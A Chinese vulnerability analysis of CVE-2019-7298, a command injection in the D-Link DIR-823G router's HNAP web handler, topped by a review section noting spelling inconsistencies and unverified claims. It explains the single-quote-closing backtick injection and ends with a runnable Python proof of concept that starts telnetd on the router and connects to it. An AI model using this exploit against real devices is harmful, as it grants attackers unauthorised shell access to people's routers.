



# （CVE-2019-7298）D-Link DIR-823G 命令注入漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：D-Link DIR823G goahead
- 本文讨论：CVE-2019-7298 HNAP请求体到echo日志
- 版本、权限与配置前提：≤1.02B03，命中function_list动作，单引号闭合后反引号执行
- 资料类型：HNAP日志命令注入分析；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 关键snprintf源码图像依赖，无官方修复信息
- /gofrom与/goform、函数地址sub_42383c/sub_4238c拼写不一
- 没有独立结果文本；与7297同HNAP但不同日志原语不可合并
- 已落实的文本修订：补齐文章标题。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 实际预认证路径、函数表及补丁待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 一、漏洞简介

D-Link DIR 823G 1.02B03及之前的版本中存在命令注入漏洞，攻击者可通过发送带有shell元字符的特制/HNAP1请求利用该漏洞执行任意的操作系统命令。在HNAP API函数处理请求之前，system函数执行了不可信的命令，触发该漏洞。

## 二、漏洞影响

D-Link DIR 823G 1.02B03及之前的版本

## 三、复现过程

### 漏洞分析

在每次内核启动之后将启动init进程，init进程的启动时根据/etc/inittab这个文件赖在不同运行级别启动相应的进程或执行相应的操作。其中sysinit代表系统的初始化，只有系统开机或重新启动的时候，后面对应的process才会执行一次。

```
::sysinit:/etc/init.d/rcS
```

在rcS中，先执行一些列mkdir和设置，执行了`goahead`。

> `goahead` 是一个开源的 `web` 服务器，用户的定制性非常强。可以通过一些 `goahead` 的 `api`定义 `url`处理函数和可供 `asp` 文件中调用的函数，具体可以看看官方的代码示例和网上的一些教程。

goahead的websUrlHandlerDefine函数允许用户自定义不同url的处理函数：

```
websUrlHandlerDefine(T("/HNAP1"), NULL, 0, websHNAPHandler, 0);
websUrlHandlerDefine(T("/goform"), NULL, 0, websFormHandler, 0);
websUrlHandlerDefine(T("/cgi-bin"), NULL, 0, websCgiHandler, 0);
```

以上代表/HNAP1的请求交给websHNAPHandler函数处理，/gofrom的请求交给websFormHandler函数处理，/cgi-bin的请求交websCgiHandler函数处理。这些处理函数有统一的参数：

```
int (*fn)(webs_t wp, char_t *url, char_t *path, char_t *query)
wp    Web server connection handle.  
url   Request URL.  
path  Request path portion of the URL.  
query Query string portion of the URL.
```

先了解/HNAP1请求的处理函数，在goahead中查找“HNAP1”字符串并通过xref定位处理函数sub_42383c



`sub_4238c`主要通过遍历全局的函数表来处理HNAP1接受的不同请求。function_list中每个元素的前四个字节为函数名，后四个字节为对应的函数地址。当找到在function_list中找到函数名与请求相同的字符串时，向/var/hnaplog中记录`param_7`的值，这个值但从汇编不太能看出，[hackedbylh](https://xz.aliyun.com/t/2834#toc-4)指出是post的报文，在运行过程中查看/var/hnaplog能猜出来。之后调用对应的函数地址处理相关请求。

这里无论处理请求的函数名是什么，在找到之后会通过snprintf输入字符且未做检查，之后直接system执行，存在命令注入漏洞。如果post请求是'`/bin/telnetd`'，就会先开启telnet服务器，再讲字符写入hnaplog。





另外需要注意，post的数据要加上引号，因为echo '%s' > /var/hnaplog中本身带了单引号，如果只是`/bin/telnet`，相当于

```
echo '`/bin/telnet`' > /var/hnaplog
```

由于命令由引号括起，会当做字符串处理，不会执行命令

而

```
echo ''`/bin/telnet`'' > /var/hnaplog
```

post中的两个引号分别与自带的两个引号组合，反引号没有嵌套在单引号中，会当做命令执行。

### poc

```
import requests
from pwn import *

IP='192.168.0.1'
command ="'`/bin/telnetd`'"
length = len(command)

headers = requests.utils.default_headers()
headers["Content-Length"]=str(length)
headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.76 Safari/537.36"
headers["SOAPAction"] = '"http://purenetworks.com/HNAP1/Login"'#此处的Login可以替换为任何在function_list中的函数名
headers["Content-Type"] = "text/xml; charset=UTF-8"
headers["Accept"]="*/*"
headers["Accept-Encoding"]="gzip, deflate"
headers["Accept-Language"]="zh-CN,zh;q=0.9,en;q=0.8"


payload = command
r = requests.post('http://'+IP+'/HNAP1/', headers=headers, data=payload)
print r.text

p=remote(IP,23)
p.interactive()
```